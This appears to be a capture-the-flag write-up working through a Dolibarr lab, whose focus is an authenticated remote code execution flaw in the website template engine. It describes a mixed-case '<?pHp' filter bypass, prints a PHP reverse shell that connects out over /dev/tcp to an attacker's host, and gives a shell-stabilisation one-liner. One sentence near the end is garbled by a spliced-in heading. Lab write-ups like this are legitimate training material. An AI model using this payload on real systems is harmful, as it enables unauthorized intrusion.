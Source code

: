 ## What is the 2023 CVE ID for an authenticated vulnerability that can lead to remote code execution in this version of Dolibarr?

This prompt requires you to actually perform the exploitation.

In part of the application there is a template engine for building web-pages hosted off of the Dolibarr system.

The template engine allows the user to input HTML and CSS to customize the pages.

Attempting to input PHP reveals that there is a filter. EXCEPT this can be easily bypassed by using a mixed-case bypass, i.e. \<?Php or \<?pHP

The publicly available exploit code performs the actions of submitting the POST request that the client makes to /website/index.php to submit the template to the webserver. The exploit code from the author just automates building the webkit form POST request and as part of it includes a simple PHP reverse shell:
```
<?pHp system(\"bash -c 'bash -i >& /dev/tcp/" + lhost + "/" + lport + " 0>&1'\"); ?>\n
```

The exploit needs a listener before running:

![[Pasted image 20250525122729.png]]

Since this is a lab environment ensure you direct your exploit script to the tun0 address.

![[Pasted image 20250525122901.png]]

A very simple exploit but the author kept the code DRY and very clean. Use the link above to give them a star!

Stabilize the shell:
```
python3 -c 'import pty; pty.spawn("/bin/sh")' 
```

Answer: www-data

The configuration for the web service is good. The www-data user is a no home user. More could have been done to lock them down to the /var/html directory. That would have prevented the www-data user from running the /usr/bin/bash or /usr/bin/sh binaries. They also could have made them a /usr/sbin/nologin user for good measure. But that does not secure the webserver from reverse shells. Reverse shells run under a process context so if a user has the ability to use the binary, it can be exploiited

## What is the full path of the file that contains the Dolibarr database connection information?

Dolibarr has a wiki https://wiki.dolibarr.org

I made the mistake of first looking under the "developer" documentation. I found the mysql install files for building the database.

I have some experience with Moodle servers. Moodle keeps database configurations lesWhat is the full path of the file that contains the Dolibarr database connection information?s hidden than the ones I found in htdocs/install/mysql.
